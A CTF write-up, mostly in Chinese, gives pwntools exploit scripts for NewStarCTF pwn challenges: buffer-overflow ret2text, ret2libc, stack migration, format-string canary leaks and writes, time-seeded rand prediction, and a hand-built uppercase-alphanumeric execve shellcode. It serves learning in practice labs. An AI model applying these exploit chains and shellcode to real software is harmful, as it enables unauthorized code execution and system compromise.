

# week1
# ret2text
ret2text
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#e=ELF('./') | |
#p=process('./ret2text') | |
p=remote('node4.buuoj.cn',27637) | |
#gdb.attach(p, 'b ') | |
offset = 0x020+8 | |
target = 0x04011FB | |
payload = b'a'*offset + p64(target) | |
p.send(payload) | |
p.interactive() |
# newstar_shop
整数溢出
#!/usr/bin/python3 | |
from pwn import * | |
#p=process('./newstar_shop') | |
p=remote('node4.buuoj.cn',25094) | |
context(os='linux',arch='amd64') | |
def inp(x): | |
p.sendline(str(x).encode()) | |
inp(1) | |
inp(1) | |
inp(1) | |
inp(1) | |
inp(1) | |
inp(1) | |
inp(3) | |
inp(1) | |
inp(3) | |
p.interactive() |
# ezshellcode
shellcode x64
#!/usr/bin/python3 | |
from pwn import * | |
#p=process('./ezshellcode') | |
p=remote('node4.buuoj.cn',25686) | |
context(os='linux',arch='amd64') | |
sh=asm(shellcraft.sh()) | |
p.send(sh) | |
p.interactive() |
# *Random
random ctypes
使用 ctypes 可以在 python 中使用 c 语言库函数。
c 语言的随机是伪随机，使用 srand 决定随机种子。而题目中使用 time(0) 获取当前时间作为随机种子。我们可以进行同样操作，以此生成完全一致的随机数。

v8 为第 1 个随机数。在输入与 v8 同样的数字后可进入 if 语句中。
v3 在取第 2 个随机数模 5 作为下标后，从字符串中获取字符。
v4 则是取第 3 个随机数模 2 作为下标取字符。
之后 sy 函数中 v4，v3 分别作为 1，2 个字符组成字符串作为 system 的参数。
原字符串中可以提出 '$' 和 '0' 组成 "$0" 。因此需要第 2 个随机数模 5 为 2，第 3 个随机数模 2 为 1。循环执行脚本，直到第 2、3 个随机数符合要求。
#!/usr/bin/python3 | |
from pwn import * | |
from ctypes import * | |
context(log_level='debug') | |
e=cdll.LoadLibrary('libc.so.6') | |
#p=process('./pwn') | |
while 1: | |
p=remote('node4.buuoj.cn',29429) | |
#gdb.attach(p, 'b ') | |
e.srand(e.time(0)) | |
payload = str(e.rand()).encode() | |
if (e.rand()%5!=2) or (e.rand()%2!=1): | |
p.close() | |
continue | |
p.recvuntil(b'number?\n') | |
p.sendline(payload) | |
p.interactive() | |
p.close() |
# p1eee
pie
程序保护启动了 pie，但没开启 canary。
栈溢出覆盖返回地址低位即可。
要修改的地址和原本地址很近，即后门函数为 0x1264，原返回地址为 0x1297，所以只需修改一个字节即可（其实也只够修改一个字节）。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
offset = 0x020+8 | |
target = 0x6c | |
#p=process('./pwn') | |
p=remote('node4.buuoj.cn',28268) | |
#gdb.attach(p, 'b read') | |
payload = b'a'*offset + p8(target) | |
p.send(payload) | |
p.interactive() | |
p.close() |
# week2
# canary
format string, canary
用 printf 漏洞泄露 canary，然后组成 payload。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p=process('./canary') | |
p=remote('node4.buuoj.cn',27529) | |
#gdb.attach(p, 'b ') | |
offset = 0x030-8 | |
target = 0x401262 | |
payload = b'%11$p\n' | |
p.recvuntil(b'gift?\n') | |
p.send(payload) | |
p.recvuntil(b'gift:\n') | |
canary = int(p.recvuntil(b'\n')[:-1],16) | |
payload = offset*b'a' + p64(canary) + p64(0xdeadbeef) + p64(target) | |
p.recvuntil(b'magic') | |
p.send(payload) | |
p.interactive() |
# secret_number x2
format string
猜数字，利用 printf 将储存的 secret 变量修改为设定值，然后输入设定值完成 if 条件判断。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p=process('./secretnumber') | |
p=remote('node4.buuoj.cn',29618) | |
#gdb.attach(p, 'b printf') | |
offset = 0x0 | |
target = 0x404C | |
payload = b'a'*offset | |
p.sendline(b'1') | |
#p.send(b'%16$p\n') | |
#add1 = p.recvuntil | |
#add2 = add1 - 0xc0 | |
payload = b'%17$p\n' | |
p.recvuntil(b'it\n') | |
p.send(payload) | |
p.recvuntil(b'gift:\n') | |
main_a = int(p.recvuntil(b'\n'),16) | |
target += main_a - 0x12f5 | |
print('[+] the secret address is ', hex(target)) | |
p.sendline(b'1') | |
#p.send(b'%16$p\n') | |
#add1 = p.recvuntil | |
#add2 = add1 - 0xc0 | |
payload = b'aa%9$n'.ljust(8,b'a') + p64(target) | |
p.recvuntil(b'it\n') | |
p.send(payload) | |
p.recvuntil(b'gift?') | |
p.sendline(b'0') | |
p.recvuntil(b'number\n') | |
p.sendline(b'2') | |
p.interactive() | |
p.close() |
想了想，用 week1 的 random 的思路应该也能做，而且更快。
#!/usr/bin/python3 | |
from pwn import * | |
from ctypes import * | |
context(log_level='debug') | |
e=cdll.LoadLibrary('libc.so.6') | |
p=process('./secretnumber') | |
#p=remote('node4.buuoj.cn',29429) | |
#gdb.attach(p, 'b ') | |
e.srand(e.time(0)) | |
payload = str(e.rand()).encode() | |
print(payload) | |
p.recvuntil(b'Give me some gift?') | |
p.sendline(b'0') | |
p.recvuntil(b'Guess the number') | |
p.sendline(payload) | |
p.interactive() | |
p.close() |
# ret2libc
ret2libc3
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',25746) | |
#p=process('./ret2libc') | |
#gdb.attach(p,'b *0x0') | |
e = ELF('./ret2libc') | |
puts_p = e.plt['puts'] | |
lsm_g = e.got['__libc_start_main'] | |
puts_g = e.got['puts'] | |
offset = 0x020 + 8 | |
main_a = e.sym['main'] | |
exit_a = main_a | |
prdi = 0x0400763 | |
ret = 0x0400506 | |
def ready(): | |
p.recvuntil(b'Show me your magic again\n') | |
ready() | |
payload = offset * b'a' + p64(prdi) + p64(lsm_g) + p64(puts_p)+ p64(main_a) | |
p.sendline(payload) | |
p.recvuntil(b'\n') | |
lsm_a = u64(p.recvuntil('\n')[:-1].ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
#''' | |
libc = LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - libc.dump('__libc_start_main') | |
sys_a = libcbase + libc.dump('system') | |
bs_a = libcbase + libc.dump('str_bin_sh') | |
''' | |
libc = ELF('./libc-2.23.so') | |
libcbase = lsm_a - libc.sym['__libc_start_main'] | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
''' | |
ready() | |
payload = offset * b'a' + p64(ret) + p64(prdi) + p64(bs_a) + p64(sys_a) + p64(exit_a) | |
p.sendline(payload) | |
p.interactive() | |
p.close() |
# stack migration
栈迁移
经典题，溢出只能到返回地址。
这道题给了 buf 局部变量的地址，因此可以把栈迁移到 buf 的位置。在字符串开头构建 payload，后半部分放入 buf 地址和 leave_ret 地址。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',25141) | |
#p=process('./pwn') | |
#gdb.attach(p,'b puts') | |
e = ELF('./pwn') | |
puts_p = e.plt['puts'] | |
read_p = e.plt['read'] | |
lsm_g = e.got['__libc_start_main'] | |
puts_g = e.got['puts'] | |
main_a = 0x4012be | |
prdi = 0x0401333 | |
rsi_r15 = 0x401331 | |
ret = 0x040101a | |
offset = 0x050 | |
leave_ret = 0x4012aa | |
p.recvuntil(b'name:') | |
payload = b'/bin/sh\0' | |
p.send(payload) | |
p.recvuntil(b'gift for you: ') | |
buf = int(p.recvuntil(b'm')[:-1],16) | |
payload = p64(prdi) + p64(lsm_g) + p64(puts_p)+ p64(main_a) | |
assert len(payload) <= offset | |
payload = payload.ljust(offset,b'a') + p64(buf) + p64(leave_ret) | |
p.recvuntil(b'plz:\n') | |
p.send(payload) | |
p.recvuntil(b'soon!\n') | |
lsm_a = u64(p.recvuntil('\n')[:-1].ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
#p.close() | |
''' | |
libc = LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - libc.dump('__libc_start_main') | |
sys_a = libcbase + libc.dump('system') | |
bs_a = libcbase + libc.dump('str_bin_sh') | |
''' | |
libc = ELF('./libc.so.6') | |
libcbase = lsm_a - libc.sym['__libc_start_main'] | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
#''' | |
p.recvuntil(b'name:') | |
payload = b'/bin/sh\0' | |
p.send(payload) | |
p.recvuntil(b'gift for you: ') | |
buf = int(p.recvuntil(b'm')[:-1],16) | |
payload = p64(prdi) + p64(bs_a) + p64(sys_a) | |
assert len(payload) <= offset | |
payload = payload.ljust(offset,b'a') + p64(buf) + p64(leave_ret) | |
p.send(payload) | |
p.interactive() | |
p.close() |
# **shellcode_revenge
alphanumeric shellcode x64 uppercase
这道题是仅包含大小写和数字类型的 shellcode。仅仅利用这些范围里的机器码构建 shellcode。
大家的解法都是用工具。大致有一下三种。
- ae64: 用于 x64，需大小写及数字
- alpha3, x64 模式 需大小写及数字 x86 可选择仅小写和数字 或 大写和数字
- metasploit 中的 msfvenom， 同 alpha3
但是这题是 64 位题，并且只能用大写和数字编写 shellcode，因此以上工具均用不了，只能自己编写 shellcode。（也或者单纯我没找到这种工具）
构造 shellcode 大部分情况就是构造 execve("/bin/sh",0,0); 这一系统调用，因此以下数据必不可少。
| “/bin”->rdi | “/sh\0” | syscall 机器码 | execve 调用号 - rax | rsi | rdx | |
|---|---|---|---|---|---|---|
| 编码 | \x2f\x62\x69\x6e | \x2f\x7c\x68\x00 | \x0f\x05 | \x3b | 0 | 0 |
| 16 进制 | 0x6e69622f | 0x68732f | 0x50f | 0x3b | 0 | 0 |
| xor | 31 30 30 36 | 31 30 30 5a | 41 30 | 39 | ||
| xor | 48 52 59 58 | 48 53 58 5a | 4e 35 | 32 | ||
| 41 | 41 | 30 |
数字的 ascii 码范围是
0x30~0x39，大写字母的 ascii 码范围是0x41~0x5a。
上述数据所对应的字符都不属于大写字母和数字，因此无法直接构建 shellcode。所以可以利用数字范围的部分 xor，以两个数字异或得到想要的数据。其中部分数据需要 3 个数才能异或获得。如 '/' ，不过因为其恰好位于低位，用 xor al, 41; 可以不影响其他位。
其次 push 立即数的机器码属于小写字母，所以还是只能通过异或寄存器再 push 寄存器的方式往栈上放入数据。在异或前需先将寄存器清零。这里用将寄存器的值 push 到栈上，寄存器再与栈顶数据异或的方式清零。
push rdi;
push rsp;
pop rcx;
xor rdi, QWORD PTR [rcx];
rdx 和 在刚开始执行 shellcode 时放入了 shellcode 的地址。可以利用其往 shellcode 写入数据，这样就能够异或出 syscall 的机器码接在其他 shellcode 之后。而刚开始我想把 "/bin/sh\0" 放在栈上，但由于 xor 好像只支持 32 位数据，而寄存器以及 pop 入栈的数据都是 64 位，所以放入栈上的两段字符串无法连接，因此我也将字符串放在了 shellcode 的最后。
| P | 0x50 | push %rax |
|---|---|---|
| Q | 0x51 | push %rcx |
| R | 0x52 | push %rdx |
| S | 0x53 | push %rbx |
| T | 0x54 | push %rsp |
| U | 0x55 | push %rbp |
| V | 0x56 | push %rsi |
| W | 0x57 | push %rdi |
| X | 0x58 | pop %rax |
| Y | 0x59 | pop %rcx |
| Z | 0x5a | pop %rdx |
可以利用的 push 和 pop 仅有上面几种，所以数据操作大部分以 rax``rcx 为中介。利用 xor DWORD PTR [rdx+0x58], eax 及变形对 shellcode 的数据进行操作。
#!/usr/bin/python | |
from pwn import * | |
context(arch='amd64') | |
context(log_level='debug') | |
#e=ELF('./shellcodere') | |
#p=process('./shellcodere') | |
p=remote('node4.buuoj.cn',26414) | |
#gdb.attach(p, 'b *0x40136E') | |
assem = ''' | |
push rdi; | |
push rsp; | |
pop rcx; | |
xor rdi, QWORD PTR [rcx]; | |
push rsi; | |
push rsp; | |
pop rcx; | |
xor esi, DWORD PTR [rcx] | |
push rsi; | |
pop rax; | |
xor eax, 0x5a5a354e | |
xor DWORD PTR [rdx+0x4c], eax | |
push rsi; | |
pop rax; | |
xor eax, 0x5a303031; | |
xor eax, 0x5a58434f; | |
xor al, 0x51; | |
xor DWORD PTR [rdx+0x58], eax | |
push rax; | |
push rsi; | |
pop rax; | |
xor eax, 0x36303031; | |
xor eax, 0x5859524f; | |
xor al, 0x51; | |
xor DWORD PTR [rdx+0x54], eax | |
push rdx; | |
pop rax; | |
xor al, 0x54; | |
push rax; | |
push rsp; | |
pop rcx; | |
xor rdi, QWORD PTR [rcx]; | |
push rsi; | |
pop rdx; | |
push rdx; | |
pop rax; | |
xor al, 0x39 | |
xor al, 0x32 | |
xor al, 0x30 | |
''' | |
shellcode = asm(assem) | |
print(shellcode) | |
print(disasm(shellcode)) | |
print(len(shellcode)) | |
p.recvuntil(b'magic') | |
p.sendline(shellcode+p32(0x5a5a3041)) | |
p.interactive() |
Alphanumeric opcode
这是那篇怎么搜都出现两三遍的文章
https://nets.ec/Alphanumeric_shellcode
https://www.anquanke.com/post/id/85871